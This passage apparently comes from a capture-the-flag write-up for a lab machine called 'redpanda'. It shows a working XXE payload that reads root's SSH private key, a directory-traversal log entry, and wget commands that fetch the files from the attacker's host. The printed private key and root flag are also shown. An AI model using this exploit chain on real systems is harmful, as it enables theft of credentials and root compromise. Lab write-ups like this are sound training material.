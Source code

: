 ```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE pwn [
	<!ELEMENT pwn ANY >
	<!ENTITY xxe SYSTEM "file:///root/.ssh/id_rsa" >]>
<credits>
	<author>gigachad</author>
	<image>
		<uri>/../../../../../../tmp/gigachad.jpg</uri>
		<views>0</views>
		<pwn>&xxe;</pwn>
	</image>
	<totalviews>0</totalviews>
</credits>
```

Also remembering when the log file is read, it will be checking the image under `/opt/panda_search/src/main/resources/static`.

However, I do not have write access to it to upload our image, so I need to write the log file with directory traversal attack as below.

```bash
200||a||a||/../../../../../../tmp/gigachad.jpg
```

So I upload everything to the server.

```bash
woodenk@redpanda:/tmp$ wget 10.10.14.3/gigachad.jpg
woodenk@redpanda:/tmp$ wget 10.10.14.3/gigachad_creds.xml
woodenk@redpanda:/tmp$ echo "200||a||a||/../../../../../../tmp/gigachad.jpg" > /opt/panda_search/redpanda.log
```

After I while, I got back the root SSH key.

```bash
</credits>woodenk@redpanda:/tmp$ cat gigachad_creds.xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE pwn>
<credits>
  <author>gigachad</author>
  <image>
    <uri>/../../../../../../tmp/gigachad.jpg</uri>
    <views>1</views>
    <pwn>-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----</pwn>
  </image>
  <totalviews>1</totalviews>
</credits>
```

You can then SSH into the machine and get the flag.

```bash
root@redpanda:~# cat /root/root.txt
5afaf9fef744f00043da5a75ecbe2619
```

